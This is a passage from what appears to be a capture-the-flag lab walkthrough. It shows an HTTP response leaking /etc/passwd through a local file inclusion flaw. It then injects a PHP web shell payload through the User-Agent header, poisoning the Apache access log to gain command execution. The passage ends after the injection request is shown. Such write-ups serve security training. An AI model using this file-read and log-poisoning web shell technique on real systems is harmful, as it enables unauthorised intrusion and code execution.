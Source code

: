 ```http
	</div>
We are still setting up the library! Try later on!<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
</p>    </body>
</html>
```

> It worked! We can read arbitrary files.
{: .prompt-info }

## checking if vulnerability is an LFI
As we saw in the burp intruder results we are also able to read the file `/var/log/apache2/access.log`.  
The basic idea is to try to inject `PHP` code into that file and then include it to see if we get code execution via `PHP`.  
The access log itself seems to be from the web server on port 80. Lets try to inject some simple `PHP` web shell via the user agent.  
payload: `<?php system($_REQUEST['cmd']); ?>`
```http
GET /index.php?teststring HTTP/1.1
Host: 192.168.250.72
Upgrade-Insecure-Requests: 1
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.250.72:8593/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=7kbv4b7lcnuu1uprcspap5i743
```